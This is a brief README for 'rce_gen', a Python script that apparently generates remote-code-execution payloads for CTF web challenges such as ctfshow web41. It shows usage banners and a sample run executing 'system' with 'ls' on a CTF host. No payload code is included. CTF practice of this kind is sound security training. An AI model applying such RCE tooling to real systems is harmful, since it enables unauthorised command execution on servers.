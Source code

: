 # rce_gen

## introduction

Mainly for the problems like ctfshow web41.

Now only contains `or`.

## usage

- ###### `python rce_gen_exp.py`

```
==================================================
USER:python exp.py <url>
eg:  python exp.py http://ctf.show/
exit: input exit in function or command
==================================================
[!] Need Url
```

- ###### `python rce_gen_exp.py [your_url]`

```
==================================================
USER:python exp.py <url>
eg:  python exp.py http://ctf.show/
exit: input exit in function or command
==================================================

[+] Your Function: system

[+] Your Command: ls

[*] result:
flag.php
index.php
index.php
```

## reference

> https://www.wlhhlc.top/posts/14827/#web41
>
> https://blog.csdn.net/miuzzx/article/details/108569080
